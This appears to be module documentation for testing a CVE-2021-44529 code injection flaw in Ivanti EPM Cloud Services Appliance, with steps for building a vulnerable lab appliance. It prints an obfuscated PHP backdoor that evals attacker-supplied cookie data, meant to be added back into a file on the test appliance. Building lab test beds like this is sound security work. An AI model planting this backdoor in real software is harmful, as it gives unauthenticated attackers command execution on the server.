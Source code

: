 ## Vulnerable Application

Ivanti Cloud Services Appliance for Ivanti Endpoint Manager is a appliance that is
designed to manage endpoints (Desktops). It also know under the name LANDESK. The
appliance can be either a physical or a virtual appliance and it runs a web based application
where the HTTP web interface is typically exposed to the public internet.

A code injection vulnerability in the Ivanti EPM Cloud Services Appliance (CSA) before
version `4.6.0-512` allows an unauthenticated user to execute arbitrary code with limited
permissions by sending a specially crafted cookie to the client endpoint at `/client/index.php`.
Successful exploitation results in command execution as user `nobody`. The logic of how
the cookie is retrieved and executed is explained in more detail at
https://attackerkb.com/assessments/d200fb32-b92f-4f69-8ae1-f6e253cf00c2 and shows how a
encoded PHP snippet is used to determine which cookie to pass to an `eval()` statement
that will execute arbitrary commands from the attacker as the `nobody` user.

Installing a vulnerable test bed requires an Ivanti EPM Cloud Services Appliance (CSA),
either physical or virtual with the vulnerable software installed.

This module has been tested against a virtual Ivanti EPM Cloud Services Appliance (CSA)
with the specifications listed below:

* Ivanti EPM Cloud Services Appliance (CSA)
* Version: `4.6.0-20211203.1950`
* Remark: Manually added vulnerable code in `/opt/landesk/broker/webroot/lib/csrf-magic.php`

## Verification Steps

### Installation
Below are the steps to install and setup a vulnerable Ivanti EPM Cloud Services virtual Appliance (CSA).

* Download the CSA 4.6 virtual appliance
  [ISO](https://download.ivanti.com/product/CSA/46/ldcsa-scsi-csrffix.iso) and follow the
  instructions [on the
  form](https://forums.ivanti.com/s/article/How-to-Create-CSA-VM-from-ISO?language=en_US).
* Once the application has been set up, log in with the username `admin` and password
  `admin`.
* Follow the prompt to change the admin password.
* Login into the appliance again with username `admin` and the password you set.
* Add a second network interface on the VM at your hypervisor. This will allow you to run
  and test the appliance without activation.
* Follow the instructions on the screen to finalize the setup.
* Start the appliance again and login with `admin` user and navigate to the security tab
  listed on the left side of the screen.
* Under `Trusted Services`, click the checkmarks next to `Secure Shell access` to enable
  SSH access.
* Login to the system via SSH with the user `admin` and the password that you set.
* Open `/opt/landesk/broker/webroot/lib/csrf-magic.php` as the `root` user using `sudo`.
* Just before `// Load user configuration` section in this file, add the following code
  which will reintroduce the vulnerable code that was removed as part of the patch.
  For more details on this, please read article [attackerkb CVE-2021-4459](https://attackerkb.com/topics/XTKrwlZd7p/cve-2021-44529).
```
// Obscure Tokens
$aeym="RlKHfsByZWdfcmVwfsbGFjZShhcnJheSgnLfs1teXHc9fsXHNdLyfscsJy9fsccy8nfsKSwgYXJyfsYXkoJycsfsJysn";
$lviw = str_replace("m","","msmtmr_mrmemplmamcme");
$bbhj="JGMofsJGEpPjMpefsyRrPSdjMTIzJzfstlfsY2hvICc8Jy4kay4nPic7ZXfsZfshbChiYXNlNjRfZGVjb2";
$hpbk="fsJGfsM9fsJ2NvdW50fsJzfsskYfsT0kXfs0NPT0tJRTtpZihyfsZfsXNldfsCgfskYfsSkfs9fsPSdhYicgJiYg";
$rvom="KSwgam9pbihhcnfsJheV9zbGljZSgkYSwkYyfsgkYSktMyfskpfsKSkpOfs2VjaG8gJzwvJy4fskay4nPic7fQ==";
$xytu = $lviw("oc", "", "ocbocaocseoc6oc4_ocdoceoccocoocdoce");
$murp = $lviw("k","","kckrkeaktkek_kfkunkcktkikokn");
$zmto = $murp('', $xytu($lviw("fs", "", $hpbk.$bbhj.$aeym.$rvom))); $zmto();
```